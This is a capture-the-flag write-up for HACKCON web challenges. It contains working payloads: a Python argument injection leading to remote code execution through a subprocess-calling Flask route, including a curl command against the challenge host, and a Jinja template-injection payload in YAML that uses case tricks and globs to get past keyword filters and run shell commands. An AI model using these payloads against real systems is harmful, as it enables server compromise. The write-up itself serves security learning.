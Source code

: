 --------------

### HACKCON CTF 

----------------

![image](https://github.com/user-attachments/assets/2a3fdfd1-c616-4f65-9554-b4e9018fe752)

----------------

### Challenges-:

----------------

- Web-:
  - Processed Subscription
  - Flask ain't no markup language
  - Zeezy's notes

------------------

### Web

------------------

### Processed Subscription

------------------

![image](https://github.com/user-attachments/assets/edee15aa-4195-4a00-aa61-bb9f8c605ead)

------------------

- Source code analysis, code-:

```python
@app.route('/run_file', methods=['GET'])
def run_code():
    filename = request.args.get("code")
    if filename.endswith(".py"):
       response = subprocess.Popen(["python3",filename],stdout=-1).communicate()
       response =  response[0].decode()
       print(response)
    else:
        response = "Invalid file type"
    return jsonify({'result': response})
```
- The route `run_file` is vulnerable to argument injection.An attacker can control the filename variable and trigger `argument injection` to Remote Code Exection on the server.
- Testing it on a python interpreter before triggering it on the server.

![image](https://github.com/user-attachments/assets/104066ba-c520-4d52-aa79-4a9613c00ccc)

- Normally, Python should only execute a file in this state and should not be vulnerable to `argument injection`.
- Explaining the payload-:

```python3
-c\neval(\"__import__('os').system('id')\")
```

- The `-c` switch triggers the python interpreter, then we use `\n` to slip to the next line.Then, in the next line, we activate our payload.If we try it with the python interpreter, it'll be something like this.

![image](https://github.com/user-attachments/assets/f3f2a683-94ad-4c3e-9a4d-84e2480f27a4)

- Final Payload-:
```
-c%0aeval(\"__import__(\'os\').system('cat%20flag.txt')\")%23.py
```

- Flag-: ```gdscCTF{l0l_tw34k1ng_withSubpr0c3ss}```

```zsh
curl -G https://chall1.pxxl.xyz/run_file -d "code=-c%0aeval(\"__import__(\'os\').system('cat%20flag.txt')\")%23.py"
{"result":"gdscCTF{l0l_tw34k1ng_withSubpr0c3ss}\n"}
```

----------------

### Flask ain't no Markup Language

---------------

<img width="496" height="747" alt="image" src="https://github.com/user-attachments/assets/5fa6bf38-41f2-42f1-9866-0447c27c6504" />

---------------

- Vulnerability is Flask Server Side Template Injection in `yaml`.While executing it, our payload will be place in yaml syntax e.g

```yaml
x: "{{7*7}}"
```

- Final payload-:

```
x: "{{config.__init__.__globals__.__getitem__('__BUILTINS__'.lower()).__getitem__('__IMPORT__'.lower())('OS'.lower()).popen('base64 /app/fl??/*.txt | base64 -d').read()}}"
```

- You can bypass the filtered strings by setting it to uppercase and passing it to python's lower function as soon as it is parsed.Lastly. the word `flag` gets filtered which you can bypass with regex e.g `fl?? should match flag`.
- Flag-: ```gdscCTF{4c4dae5677c29dcdcd06ba88565602fa}```

![image](https://github.com/user-attachments/assets/9bb1bb33-8913-4bf3-be94-5e2f4796dfe5)

----------------



